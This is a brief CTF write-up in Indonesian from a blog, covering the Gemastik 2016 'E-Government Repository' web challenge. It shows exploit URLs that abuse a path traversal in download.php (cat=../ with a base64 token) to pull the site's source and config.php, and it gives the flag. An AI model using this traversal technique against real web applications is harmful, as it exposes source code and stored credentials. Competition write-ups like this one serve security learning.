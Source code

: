 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : E-Government Repository - 75"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: ctf
tags: [gemastik,Web Exploitation]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![E-Government Repository](/images/egovernment-repository.png)


### Solusi :

Vulnerability terletak pada file download.php yang memungkinkan kita untuk mendownload file .php nya sendiri.
untuk mendownload file di butuhkan 3 parameter.

`file=NAMAFILE` , `token=BASE64(NAMAFILE)` , `cat=DIREKTORI`

jadi untuk mendownload file download.php kita sesuaikan 3 parameter tersebut.

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../)

kemudian download file `config.php`

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../)

**Flag : ** `GEMASTIK{The_Panama_Papers_are_the_largest_data_leak_and_caused_by_LFI}`



